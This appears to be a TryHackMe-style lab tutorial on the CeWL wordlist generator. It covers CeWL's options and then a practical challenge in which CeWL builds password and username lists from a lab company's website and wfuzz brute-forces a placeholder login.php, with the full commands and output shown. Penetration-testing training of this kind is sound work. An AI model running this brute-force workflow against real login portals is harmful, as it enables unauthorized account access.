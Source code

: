 #### How to use CeWL?

In the terminal, type `cewl -h` to see a list of all the options it accepts, complete with their descriptions.

```shell-session
$ cewl -h
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
Usage: cewl [OPTIONS] ... 

    OPTIONS:
	-h, --help: Show help.
	-k, --keep: Keep the downloaded file.
	-d ,--depth : Depth to spider to, default 2.
	-m, --min_word_length: Minimum word length, default 3.
	-x, --max_word_length: Maximum word length, default unset.
	-o, --offsite: Let the spider visit other sites.
	--exclude: A file containing a list of paths to exclude
	--allowed: A regex pattern that path must match to be followed
	-w, --write: Write the output to the file.
	-u, --ua : User agent to send.
	-n, --no-words: Don't output the wordlist.
	-g , --groups : Return groups of words as well
	--lowercase: Lowercase all parsed words
	--with-numbers: Accept words with numbers in as well as just letters
	--convert-umlauts: Convert common ISO-8859-1 (Latin-1) umlauts (ä-ae, ö-oe, ü-ue, ß-ss)
	-a, --meta: include meta data.
	--meta_file file: Output file for meta data.
	-e, --email: Include email addresses.
	--email_file : Output file for email addresses.
	--meta-temp-dir : The temporary directory used by exiftool when parsing files, default /tmp.
	-c, --count: Show the count for each word found.
	-v, --verbose: Verbose.
	--debug: Extra debug information.
[--snip--]
```

This will provide a full list of options to further customise your wordlist generation process. If CeWL is not installed in your VM, you may install it by using the command `sudo apt-get install cewl -y`

To generate a basic wordlist from a website, use the following command:

Terminal

```shell-session
user@tryhackme$ cewl http://MACHINE_IP                                     
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
Start
End
and
the
AntarctiCrafts
[--snip--]
```

To save the wordlist generated to a file, you can use the command below:

Terminal

```shell-session
user@tryhackme$ cewl http://MACHINE_IP -w output.txt
user@tryhackme$ ls
output.txt
```

#### Why CeWL?

CeWL is a wordlist generator that is unique compared to other tools available. While many tools rely on pre-defined lists or common dictionary attacks, CeWL creates custom wordlists based on web page content. Here's why CeWL stands out:

1. **Target-specific wordlists:** CeWL crafts wordlists specifically from the content of a targeted website. This means that the generated list is inherently tailored to the vocabulary and terminology used on that site. Such custom lists can increase the efficiency of brute-forcing tasks.
2. **Depth of search:** CeWL can spider a website to a specified depth, thereby extracting words from not just one page but also from linked pages up to the set depth.
3. **Customisable outputs:** CeWL provides various options to fine-tune the wordlist, such as setting a minimum word length, removing numbers, and including meta tags. This level of customisation can be advantageous for targeting specific types of credentials or vulnerabilities.
4. **Built-in features:** While its primary purpose is wordlist generation, CeWL includes functionalities such as username enumeration from author meta tags and email extraction.
5. **Efficiency:** Given its customisability, CeWL can often generate shorter but more relevant word lists than generic ones, making password attacks quicker and more precise.
6. **Integration with other tools:** Being command-line based, CeWL can be integrated seamlessly into automated workflows, and its outputs can be directly fed into other cyber security tools.
7. **Actively maintained:** CeWL is actively maintained and updated. This means it stays relevant and compatible with contemporary security needs and challenges.

In conclusion, while there are many wordlist generators out there, CeWL offers a distinct approach by crafting lists based on a target's own content. This can often provide a strategic edge in penetration testing scenarios.

#### How To Customise the Output for Specific Tasks

CeWL provides a lot of options that allow you to tailor the wordlist to your needs:

1. **Specify spidering depth:** The `-d` option allows you to set how deep CeWL should spider. For example, to spider two links deep: `cewl http://MACHINE_IP -d 2 -w output1.txt`
2. **Set minimum and maximum word length:** Use the `-m` and `-x` options respectively. For instance, to get words between 5 and 10 characters: `cewl http://MACHINE_IP -m 5 -x 10 -w output2.txt`
3. **Handle authentication:** If the target site is behind a login, you can use the `-a` flag for form-based authentication.
4. **Custom extensions:** The `--with-numbers` option will append numbers to words, and using `--extension` allows you to append custom extensions to each word, making it useful for directory or file brute-forcing.
5. **Follow external links:** By default, CeWL doesn't spider external sites, but using the `--offsite` option allows you to do so.

#### Practical Challenge

To put our theoretical knowledge into practice, we'll attempt to gain access to the portal located at `http://MACHINE_IP/login.php`

Your goal for this task is to find a valid login credential in the login portal. You might want to follow the step-by-step tutorial below as a guide.

1. **Create a password list using CeWL:** Use the AntarctiCrafts homepage to generate a wordlist that could potentially hold the key to the portal.
    
    Terminal
    
    ```shell-session
    user@tryhackme$ cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers
    user@tryhackme$ cat passwords.txt
    telephone
    support
    Image
    Professional
    Stuffs
    Ready
    Business
    Isaias
    Security
    Daniel
    [--snip--]
    ```
    
    **Hint:** Keep an eye out for AntarctiCrafts-specific terminology or phrases that are likely to resonate with the staff, as these could become potential passwords.
    
2. **Create a username list using CeWL:** Use the AntarctiCrafts' Team Members page to generate a wordlist that could potentially contain the usernames of the employees.
    
    Terminal
    
    ```shell-session
    user@tryhackme$ cewl -d 0 -m 5 -w usernames.txt http://MACHINE_IP/team.php --lowercase
    user@tryhackme$ cat usernames.txt
    start
    antarcticrafts
    stylesheet
    about
    contact
    services
    sculptures
    libraries
    template
    spinner
    [--snip--]
    ```
    
3. **Brute-force the login portal using wfuzz:** With your wordlist ready and the list of usernames from the Team Members page, it's time to test the login portal. Use **wfuzz** to brute-force the `/login.php`.
    
    What is wfuzz? Wfuzz is a tool designed for brute-forcing web applications. It can be used to find resources not linked directories, servlets, scripts, etc, brute-force GET and POST parameters for checking different kinds of injections (SQL, XSS, LDAP), brute-force forms parameters (user/password) and fuzzing.
    
    Terminal
    
    ```shell-session
    user@tryhackme$ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://MACHINE_IP/login.php
    Total requests: 60372
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                             
    =====================================================================
    
    000018052:   302        124 L    323 W      5047 Ch     "REDACTED - REDACTED"                                
    
    Total time: 412.9068
    Processed Requests: 60372
    Filtered Requests: 60371
    Requests/sec.: 146.2121
    ```
    
    In the command above:
    
    - `-z file,usernames.txt` loads the usernames list.
    - `-z file,passwords.txt` uses the password list generated by CeWL.
    - `--hs "Please enter the correct credentials"` hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
    - `-u` specifies the target URL.
    - `-d "username=FUZZ&password=FUZ2Z"` provides the POST data format where **FUZZ** will be replaced by usernames and **FUZ2Z** by passwords.
    
    Note: The output above contains the word REDACTED since it contains the correct combination of username and password.
    
4. The login portal of the application is located at `http://MACHINE_IP/login.php`. Use the credentials you got from the brute-force attack to log in to the application. 
[[Crunch]]

